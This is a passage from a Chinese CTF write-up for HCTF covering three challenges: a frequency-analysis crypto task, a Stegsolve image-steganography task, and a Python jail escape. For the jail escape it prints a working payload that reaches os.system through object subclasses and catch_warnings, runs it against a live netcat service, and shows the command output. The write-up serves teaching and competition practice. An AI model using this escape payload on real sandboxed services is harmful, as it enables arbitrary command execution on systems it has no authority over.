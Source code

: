 	the first known recorded explanation of frequency analysis (indeed, of any kind of cryptanalysis) was given in the 9th century by al-kindi, an arab polymath, in a manuscript on deciphering cryptographic messages.[3] it has been suggested that close textual study of the qur'an first brought to light that arabic has a hctf{enjoyyourselfinhctf}.characteristic letter frequency.[4] its use spread, and similar systems were widely used in european states by the time of the renaissance. by 1474, cicco simonetta had written a manual on deciphering encryptions of latin and italian text.[5] arabic letter frequency and a detailed study of letter and word frequency analysis of the entire book of qur'an are provided by intellaren articles.

	...
	
flag：``hctf{enjoyyourselfinhctf}``
	
##FIND（200pt）

题目给了张比较大的图片，提示给了是隐写，直接掏出神器 ``Stegsolve.jar``。

在该图片的其它色度上隐藏了一张二维码，微信扫一扫即可得到flag。

flag：``flag{hctf_3xF$235#\x5e3}``

##starbucks（400pt）

tips：nc 115.29.191.81 15878

	~ ⮀ nc 115.29.191.81 15878
	Python 2.7.6 (default, Mar 22 2014, 22:59:56)
	[GCC 4.8.2] on linux2
	Type "help", "copyright", "credits" or "license" for more information.
	(InteractiveConsole)
	
nc上去一看是python里code模块的一个交互式解释器，但是测试一番后发现删除了某些symbol，并且在交互下没有输出，只有在正常exit()时候才会返回交互输出。

网上搜索了一下发现了与该题类似的一个Paper：

[https://github.com/PyCodersCN/PyCodersCN/blob/3328d1ed08d33232e1eca0d92f679508f002c809/issue17/eval-really-is-dangerous.rst](https://github.com/PyCodersCN/PyCodersCN/blob/3328d1ed08d33232e1eca0d92f679508f002c809/issue17/eval-really-is-dangerous.rst)

同时在google上又发现了picoctf上的一道题目与此类似（为何又是这样）：

[http://jonathanzong.com/picoctf/2013/05/07/python-eval-5-140](http://jonathanzong.com/picoctf/2013/05/07/python-eval-5-140)

直接根据文章中的POC即可执行命令：

{% highlight python %}

[x for x in ().__class__.__bases__[0].__subclasses__() if x.__name__ == 'catch_warnings'][0].__init__.func_globals["linecache"].__dict__["os"].system('ls')

{% endhighlight %}

经过一番搜索后，发现flag的路径为：``/home/starbucks/grande/greentea/latte/flag``

	~ ⮀ nc 115.29.191.81 15878
	Python 2.7.6 (default, Mar 22 2014, 22:59:56)
	[GCC 4.8.2] on linux2
	Type "help", "copyright", "credits" or "license" for more information.
	(InteractiveConsole)
	[x for x in ().__class__.__bases__[0].__subclasses__() if x.__name__ == 	'catch_warnings'][0].__init__.func_globals["linecache"].__dict__["os"].system('find /home -name flag');exit()
	/home/starbucks/grande/greentea/latte/flag
	>>> 0
	